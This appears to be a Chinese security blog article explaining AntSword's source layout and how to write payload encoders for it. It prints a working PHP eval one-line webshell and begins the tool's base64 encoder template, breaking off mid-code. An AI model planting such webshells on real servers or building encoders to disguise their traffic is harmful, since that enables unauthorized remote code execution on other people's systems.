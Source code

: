 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzUyMDEyNTkwNA==&mid=2247484709&idx=1&sn=d60b221de56bcca7465e0cebd196def1&chksm=f9ee699ace99e08cc7d5cf1dfe8b3c53f1b57abedccca1b569400641fcf6e7f2ac85a512ffa3&mpshare=1&scene=1&srcid=1014vgqAU1jnnUFbitBTZTel&sharer\_sharetime=1602633313864&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=68e9243f12923845b40efd3366e55a27d2ced43c80b2f1159ee2ddc2451e0a9e972c0272dd10de39bbc4e2c27f7212a66dd0fff0c9962327aa320d83efea95d95f61c9c6c62c07d4bc767eb125d35fff24a8c0b05769660995c4d41003ca466738d126da75f2798212f4be9049a092edaaf2188a57023c5bbe92b9cb883c8443&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AbGBuTnW1jrLwPNr7Xaspj4%3D&pass\_ticket=5iBkjjQtfbEoCMU4%2BnfhOAJi%2FVJ%2BFty3yCm8kFn8GVUk3mWzBKMJBjfoyOfZ%2B5pr&wx\_header=0)

> 小猪 @Pentes7eam

安恒信息安全研究院 发起了一个读者讨论 快一起来讨论吧！ 参与讨论

antsword 代码结构
-------------

### 总体来看分为两部分

1.  loader，包含了 electron 环境相关的一些代码，一般不需要关心
    
2.  source，包含 antsword 界面和逻辑代码
    

### source 下的几个重要目录和文件

*   antData 里面包含缓存数据，编码器解码器，插件源码，所有的 shell 信息
    
*   modules 包含了 antsword 功能逻辑的底层支持代码，包括发送请求，更新等
    
*   source 这里包含了和不同类型脚本相关的代码，包括内置编码器，内置的对应脚本功能代码
    

编码器解码器开发
--------

### 1 编码器开发

#### 1.1 普通 base64 编码器讲解

##### 一句话原理

这里先简单提下一句话原理，一句话就是一段执行接收到的数据的代码。  
客户端传什么过去，服务端就执行什么，也就意味着功能是可以无限扩展的。

##### 典型 php 一句话

```
<?php eval($\_POST\['test'\]);?>
```

我们在 post 体中传一个 “test=php 代码”，目标就会执行。

##### 新建一个编码器

antsword 会自动生成一个 base64 编码器，代码如下

```
'use strict';
/\*
\* @param  {String} pwd   连接密码
\* @param  {Array}  data  编码器处理前的 payload 数组
\* @return {Array}  data  编码器处理后的 payload 数组
\*/
module.exports =(pwd, data, ext={})=>{
// ##########    请在下方编写你自己的代码   ###################
// 以下代码为 PHP Base64 样例
// 生成一个随机变量名
let randomID =\`\_0x${Math.random().toString(16).substr(2)}\`;
// 原有的 payload 在 data\['\_'\]中
// 取出来之后，转为 base64 编码并放入 randomID key 下
```